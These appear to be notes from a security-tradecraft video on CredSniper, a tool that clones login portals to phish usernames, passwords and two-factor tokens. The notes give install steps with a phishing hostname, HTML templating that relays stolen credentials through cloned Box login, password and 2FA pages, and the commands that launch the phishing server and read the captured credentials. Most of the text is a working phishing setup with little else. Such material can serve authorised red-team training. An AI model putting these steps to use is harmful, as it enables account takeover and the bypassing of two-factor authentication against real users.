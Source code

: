 Phishing 2FA Tokens with CredSniper - Tradecraft Security Weekly - #25

https://github.com/ustayready/CredSniper
# Overview
- More orgs are implementing 2FA
- Need a method to capture 2FA tokens
- Need rapid method to clone auth portals
- CredSniper to save the day.

# Install
```
# git clone https://github.com/ustayready/CredSniper
# cd CredSniper
# ./install.sh
gmail
https://box.com/
Y
Y
tsw.poppingboxes.org (the hostname for certs and our phishing domain)
port 443
```
will start building.
Go to login portal that we want to clone.
Copy the html
save to text file
add templating to direct to "{{ next_url }} " on index.html page
```
<div class="main-body is-narrow">  <form id="login-form" name="login-form" method="POST" action="{{ next_url }}"><div class="login-container"><h1>Sign In to Your Account</h1> etc.....
```
![b068b6bab3d35d6c43a753f609142e38.png](../_resources/b4b97dbde4b0456094c2e1238c499904.png)

add templating for username on password.html page
```
<span class="login-preview">Signing in as {{ username }}.</span>
<a href="/login?redirect_url=%2F" title=....etc
<input type="text" name="username" value="{{ username }}" id="username" class="hidden" autocomplete="username">
```
![dda7ea052fe83efe6e4db53123bcb183.png](../_resources/c9f5fbc9831d43a98ed6a6787dc67ea3.png)

add templating to twofa.html
```
<div class="login-container"><form method blah blah {{ next_url }} "><h1 class="login-heading">Using a new device?etc....

<input type="hidden" id="password" name="password" value="{{ password }}">
<input type="hidden" id="username" value="{{ username }}">
```
![c76cc125cfce198146f4937f7583935e.png](../_resources/9ab08fbef00e44019b9db7eb7643c5c3.png)
creds captured in .cache file

Box DEMO
```
# mkdir box
# cd box
# cp -R ../example/*
# ls -la
# mv example.py box.py
# ls -la templates/
# ....create login.html password.html twofactor.html
# cd ..
# cd ..
# source bin/activate
# python3 credsniper.py
# python3 credsniper.py --module box --two-factor --port 443 --ssl --final https://box.com --hostname tsw.poppingboxes.org
# cat .sniped


